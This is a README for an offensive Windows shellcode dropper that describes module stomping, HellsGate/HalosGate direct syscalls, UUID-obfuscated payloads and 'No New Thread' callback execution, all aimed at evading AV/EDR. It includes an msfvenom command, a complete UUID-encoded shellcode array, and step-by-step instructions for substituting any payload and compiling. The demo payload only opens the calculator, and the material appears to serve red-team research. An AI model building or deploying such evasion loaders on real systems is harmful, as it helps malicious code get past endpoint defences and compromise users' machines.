 # Ninja UUID Dropper
Module Stomping, No New Thread, HellsGate syscaller, UUID Dropper for x64 Windows 10!

![](./ninja.jpg)

#### Created by [Bobby Cooke (@0xBoku)](https://twitter.com/0xBoku) with [Matt Kingstone(@n00bRage)](https://twitter.com/n00bRage)

## About
Shellcode is typically loaded into the `Heap` of the process, or the `VirtualAlloc()` API is used to reserve a private section of memory which the shellcode is loaded into. For the shellcode to execute, the allocated memory must be marked executable. This is typically done by calling the `VirtualProtect()` API, after the shellcode has been written to memory, to change the allocated memory from `RW` (Read-Write) to `RX` (Read-Execute). These executable memory sections are easy to detect when they are not backed by a module, such as the executable section of the host process or Dynamically Loaded Libraries (DLLs) executable code section. To evade this detection, Module Stomping can be used.

Module Stomping is where the malware will load a DLL into the processes memory using the `LoadLibrary()` API, change the permissions of the loaded libraries memory to `RW` (writable), overwrite the DLL memory with the shellcode, change the module-backed memory back to `RX` (executable), and then execute the shellcode from the DLL memory. When the memory is scanned, the shellcode will appear to be just the executable code from the loaded DLL. Therefor this may evade some AV/EDR dynamic memory scanners.

Sektor7 does a better job of explaining it, and I recommend you check out there courses if you'd like to dive deeper: [institute.sektor7.net](https://institute.sektor7.net/)

This dropper uses the Module Stomping technique described above, in combination with the:
+ Deobfuscates the shellcode payload from UUIDs
  + The UUID payload helps to decrease the shellcodes entropy, which can help evade some detection methods 
+ Crawls the in memory list of loaded modules to discover the base addresses of `ntdll.dll` and `kernel32.dll`
+ Resolves `NTAPI` & `WINAPI` APIs by using a custom implementation of `GetProcAddress()` written in Assembly
+ HellGate Technique to resolve the Windows System Calls dynamically by reading the memory of `ntdll.dll`
+ Uses HalosGate Technique to resolve the Windows System Calls if `ntdll.dll` is hooked by AV/EDR
+ Changes the memory protection of the DLL using syscalls
+ "No New Thread" technique which uses `EnumSystemLocalesA()` to execute the UUID decoded shellcode


## Walkthrough Example with MSF PopCalc
+ First you will need a raw binary file that contains your shellcode.
+ For this example we will use MetaSploit's MSFVenom to create a simple "Pop Calc" shellcode for x64 Windows 10.
  + This shellcode was created from a Kali Linux virtual machine. 
### MSFVenom PopCalc Shellcode Creation
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
```

### Raw Shellcode File to UUIDs
+ Now that we have our raw shellcode file `calc.bin` we will use the `bin2uuid.py` python3 script to convert our shellcode into an array of UUIDs.
+ For large shellcodes, I recommend piping the output from the python script to a file. Then transfer the file over to your windows workstation where you will be compiling the dropper with windows Visual Studios.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 bin2uuid.py calc.bin
    const char* uuids[] =
    {
        "e48348fc-e8f0-00c0-0000-415141505251",
        "d2314856-4865-528b-6048-8b5218488b52",
        "728b4820-4850-b70f-4a4a-4d31c94831c0",
        "7c613cac-2c02-4120-c1c9-0d4101c1e2ed",
        "48514152-528b-8b20-423c-4801d08b8088",
        "48000000-c085-6774-4801-d0508b481844",
        "4920408b-d001-56e3-48ff-c9418b348848",
        "314dd601-48c9-c031-ac41-c1c90d4101c1",
        "f175e038-034c-244c-0845-39d175d85844",
        "4924408b-d001-4166-8b0c-48448b401c49",
        "8b41d001-8804-0148-d041-5841585e595a",
        "59415841-5a41-8348-ec20-4152ffe05841",
        "8b485a59-e912-ff57-ffff-5d48ba010000",
        "00000000-4800-8d8d-0101-000041ba318b",
        "d5ff876f-f0bb-a2b5-5641-baa695bd9dff",
        "c48348d5-3c28-7c06-0a80-fbe07505bb47",
        "6a6f7213-5900-8941-daff-d563616c632e",
        "00657865-9090-9090-9090-909090909090"
    };
```

### Copy UUID Shellcode to `main.c`
+ Copy the array of UUIDs to your windows workstation either via the copy-paste buffer or a file.
+ Open this project in Microsoft Visual Studios.
+ Within the `main.c` file, replace the `uuids[]` array with your array of UUIDs.

### Optionally Change Sacraficial DLL
+ You may optionally change the sacraficial DLL that has its `RX` section module stomped by our shellcode by changing the `sLib[]` array to a name of a different DLL.
+ Make sure that the DLL is large enough to hold your shellcode or else you may end up overwriting a neighbor DLL in memory of the process.
+  Use the `string2array.py` python script to convert the DLL name into an array of chars. 
  +  Alternatively just use a typical string method since we are not creating a Beacon Object File (BOF) or shellcode.
```bash
┌──(bobby.cooke@0xBoku)-[~]
└─$ python3 string2array.py sLib mshtml.dll
CHAR sLib[] = {'m','s','h','t','m','l','.','d','l','l',0};
```
+ Replace the `CHAR sLib[]` array in `main.c` with the newly generated one.

### Compile with Visual Studios
+ Once you have made your changes, compile the EXE with Visual Studios
+ If you are using the example provided, a calculator should popup when you press the green play button within Visual Studios.

## Credits / References
+ [Stephan Borosh (rvrsh3ll|@424f424f)](https://twitter.com/424f424f) & [Matt Kingstone](https://twitter.com/n00bRage) for showing me the awesome UUID shellcode loading technique.
+ [ajpc500/binToUUIDs.py](https://gist.github.com/ajpc500/a9695eca6a660d1fb5ec30a2e356f33e)
+ [Secure Hat - Shellcode Execution via EnumSystemLocalA](https://blog.securehat.co.uk/process-injection/shellcode-execution-via-enumsystemlocala)
### Implementing ASM in Visual Studio C Projects
+ [bs - Implementing Syscalls In The Cobaltstrike Artifact Kit](https://br-sn.github.io/Implementing-Syscalls-In-The-CobaltStrike-Artifact-Kit/)
### HalosGate SysCaller
+ [Reenz0h from @SEKTOR7net](https://twitter.com/SEKTOR7net)
  + Most of the C techniques I use are from [Reenz0h's awesome Sektor7 courses](https://institute.sektor7.net/) & blogs 
  + [Sektor7 HalosGate Blog](https://blog.sektor7.net/#!res/2021/halosgate.md)
### HellsGate Syscaller
+ [@smelly__vx](https://twitter.com/smelly__vx) & [@am0nsec](https://twitter.com/am0nsec) ( Creators/Publishers of the Hells Gate technique )
  + [HellsGate Github Repo](https://github.com/am0nsec/HellsGate)
  + Link to the [Hell's Gate paper: https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf](https://vxug.fakedoma.in/papers/VXUG/Exclusive/HellsGate.pdf)
### Great Resource for learning Intel ASM - [Vivek Ramachandran (@vivekramac)](https://twitter.com/vivekramac)
+ [Pentester Academy - SLAE64](https://www.pentesteracademy.com/course?id=7)

## Other Projects/References that use the UUID Shellcode Loading Technique
+ [byt3bl33d3r/OffensiveNim](https://github.com/byt3bl33d3r/OffensiveNim/blob/2cb5f8b4691ee430fbfad084d3cb863a0ca2f0b7/src/uuid_exec_bin.nim)
- https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/
- https://blog.sunggwanchoi.com/eng-uuid-shellcode-execution/
- https://gist.github.com/rxwx/c5e0e5bba8c272eb6daa587115ae0014#file-uuid-c
